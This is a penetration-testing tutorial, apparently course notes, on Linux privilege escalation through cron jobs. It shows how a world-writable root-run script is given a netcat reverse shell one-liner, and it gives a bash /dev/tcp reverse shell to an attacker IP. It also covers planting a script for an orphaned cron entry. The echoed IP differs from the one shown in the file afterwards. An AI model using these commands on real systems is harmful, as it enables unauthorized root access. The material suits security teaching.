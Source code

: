# Cron Jobs

{% code title=" Inspecting the cron log file" overflow="wrap" lineNumbers="true" %}
```
joe@debian-privesc:~$ grep "CRON" /var/log/syslog
...
Aug 25 04:56:07 debian-privesc cron[463]: (CRON) INFO (pidfile fd = 3)
Aug 25 04:56:07 debian-privesc cron[463]: (CRON) INFO (Running @reboot jobs)
Aug 25 04:57:01 debian-privesc CRON[918]:  (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
Aug 25 04:58:01 debian-privesc CRON[1043]: (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
Aug 25 04:59:01 debian-privesc CRON[1223]: (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
```
{% endcode %}

```
ls -lah /etc/cron*
```

{% code title="Showing the content and permissions of the user_backups.sh script" overflow="wrap" lineNumbers="true" %}
```
joe@debian-privesc:~$ cat /home/joe/.scripts/user_backups.sh
#!/bin/bash

cp -rf /home/joe/ /var/backups/joe/

joe@debian-privesc:~$ ls -lah /home/joe/.scripts/user_backups.sh
-rwxrwxrw- 1 root root 49 Aug 25 05:12 /home/joe/.scripts/user_backups.sh
```
{% endcode %}

{% code title="Inserting a reverse shell one-liner in user_backups.sh" overflow="wrap" lineNumbers="true" %}
```
joe@debian-privesc:~$ cd .scripts

joe@debian-privesc:~/.scripts$ echo >> user_backups.sh

joe@debian-privesc:~/.scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >> user_backups.sh

joe@debian-privesc:~/.scripts$ cat user_backups.sh
#!/bin/bash

cp -rf /home/joe/ /var/backups/joe/


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f
```
{% endcode %}

```
cat /etc/crontab
```

The script will use the tools available on the target system to launch a reverse shell.\
Two points to note;

1. The command syntax will vary depending on the available tools. (e.g. `nc` will probably not support the `-e` option you may have seen used in other cases)
2. We should always prefer to start reverse shells, as we not want to compromise the system integrity during a real penetration testing engagement.

The file should look like this;\


![](https://i.imgur.com/579yg6H.png)

{% code title="oneliner to get a reverse shell" overflow="wrap" lineNumbers="true" %}
```
bash -i >& /dev/tcp/192.168.45.245/4444 0>&1
```
{% endcode %}

We will now run a listener on our attacking machine to receive the incoming connection.

\


![](https://i.imgur.com/xwYXfY1.png)

\


Crontab is always worth checking as it can sometimes lead to easy privilege escalation vectors. The following scenario is not uncommon in companies that do not have a certain cyber security maturity level:

1. System administrators need to run a script at regular intervals.
2. They create a cron job to do this
3. After a while, the script becomes useless, and they delete it\

4. They do not clean the relevant cron job

This change management issue leads to a potential exploit leveraging cron jobs.

\


![](https://i.imgur.com/SovymJL.png)

\


\


The example above shows a similar situation where the antivirus.sh script was deleted, but the cron job still exists.\
If the full path of the script is not defined (as it was done for the backup.sh script), cron will refer to the paths listed under the PATH variable in the /etc/crontab file. In this case, we should be able to create a script named “antivirus.sh” under our user’s home folder and it should be run by the cron job.\


\


The file on the target system should look familiar:\


![](https://i.imgur.com/SHknR87.png)\


\


The incoming reverse shell connection has root privileges:

![](https://i.imgur.com/EBCue17.png)\


\


In the odd event you find an existing script or task attached to a cron job, it is always worth spending time to understand the function of the script and how any tool is used within the context. For example, tar, 7z, rsync, etc., can be exploited using their wildcard feature.

\
